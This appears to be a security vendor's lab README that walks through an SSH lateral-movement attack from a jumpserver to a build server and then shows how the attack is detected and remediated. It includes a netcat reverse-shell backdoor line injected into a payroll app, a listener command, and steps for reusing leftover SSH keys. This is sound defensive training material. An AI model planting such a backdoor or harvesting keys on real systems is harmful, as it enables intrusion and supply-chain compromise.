 # Multi-Machine Lateral Movement

This scenario shows an attacker gaining access to a public-facing server outside of the cluster, and using it to connect to a more restricted build environment.

## Pre-requisites

This scenario requires two machines to be set up outside of the Kubernetes cluster using the install script. To begin, you will need the IP address and SSH key to access the first server (or "jumpserver").

## Running the Exploit

There are two machines in this scenario: a "jumpserver" and a build server (`buildbox`). The build server is supposed to be restricted, and can only be accessed from machines within the same account. To use the build server for publishing new versions of private images, developers first connect to a public-facing jumpserver using SSH. From there, they can connect to the build server.

In this scenario, we start as the attacker, who has just acquired the SSH key for the jumpserver. Let's start by connecting to the machine.

```sh
ssh -i ~/path/to/jumpserver/key JUMPSERVER_USER@JUMPSERVER_IP
```

Now, take a look at the history:

```sh
history
```
```
    1  ls -la
    2  hostname
    3  systemctl status sshd.service 
    4  ls .ssh/
    5  ssh-keygen
    6  cat .ssh/buildbox_id.pub 
    7  ssh -i ~/.ssh/buildbox_id root@203.0.113.45
    8  history
```

The developers used the SSH key `buildbox_id` to access the build server. It also looks like the SSH key is still present:

```sh
ls ~/.ssh
```
```
authorized_keys  buildbox_id
```

So now, we can connect to the build server:

```sh
# note: use the command that appeared in your history for a valid user/IP
ssh -i ~/.ssh/buildbox_id root@203.0.113.45
```

If we look at the history, we can see some of the old packages that were built here:

```sh
history
```
```
    1  git clone git@github.com:example/build.git 
    2  cd build
    3  make push-container
    4  cd ..
    5  rm -rf build
    6  git clone git@github.com:example/payroll-app.git 
    7  cd payroll-app
    8  make build
    9  make push-container
   10  cd payroll-app
   11  git pull
   12  make push-container
   13  history
   14  ls ~/.ssh
   15  ls ~/payroll-app/
   16  cat payroll-app/Makefile 
   17  history
```

Given the build server is fetching private code using SSH, we could use the SSH keys here to login to GitHub and view the company's repositories:

```sh
ls ~/.ssh/
```
```
authorized_keys  github-login
```

Instead, let's can take a look at the `payroll-app` directory to get some more details about how the build were handled:

```sh
ls ~/payroll-app/
```
```sh
cat payroll-app/Makefile
```

And, given the access on this machine, we could edit the `payroll-app` package to add a backdoor that we could access, and then push a new version of the package.

As an example, let's install netcat for setting up a reverse shell:

```sh
sudo yum install nmap-ncat
```

And validate that we can use `nc`:

```sh
nc --version
```

Then, we can edit the payroll app to give us the backdoor, such as connecting to this machine with a reverse shell.

```py
# file: payroll-app/payroll-calc.py
# ...
import os; os.system("nc 203.0.113.45 2222 -e /bin/bash")
```

For this demo, the buildbox is not actually set up to generate new images, but at this point is where we would build the new image, start a listening server, and wait for someone to deploy the backdoor:

```sh
nc -l -p 2222
```

To see a full supply-chain exploitation and how Spyderbat detects it, visit the [supply chain attack demo](../supply_chain/).

## Investigation


In the Spyderbat Console, navigate to the Dashboard page to begin our investigation. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "interactive_ssh_from_[IP_ADDRESS]", or "suspicious_crud_command_cat". Select these Spydertraces, and select "Start Process Investigation" to see the events of the exploit layed out in a Causal Tree in the investigation view:

![An example of the resulting graph](./lateral_movement_external_graph.png)

Your view should looks similar to the trace above. If it does not, make sure you selected a Spydertrace object from both machines. If you are still missing details, click the "Add Next X Objects" button on some of the traces listed in the records table next to the graph:

![A view of the records table, showing the Add Next 18 Object button](./recordslist_example.png)

From this graph, we can easily see that the attacker is installing unexpected packages and running suspicious commands like `nc`. We can also see that the attacker's access came from the machine on the right, which we know is the jumpserver. If we select the `vim` process, we can also see that the Payroll app was modified by the command arguments in the details pane:

![The details pane, showing the command with the filename](./vim_details.png)

## Next Steps

Now that we know the attacker's method of access and persistence method, we can take steps to remediate:

- rotate both machines' SSH keys
- remove the backdoor from the payroll-prod system.
- remove netcat from the build system

## Further Reading

- [Supply Chain Attack Scenario](../supply_chain/)
- [End-to-End Demo Scenario](../end_to_end/)
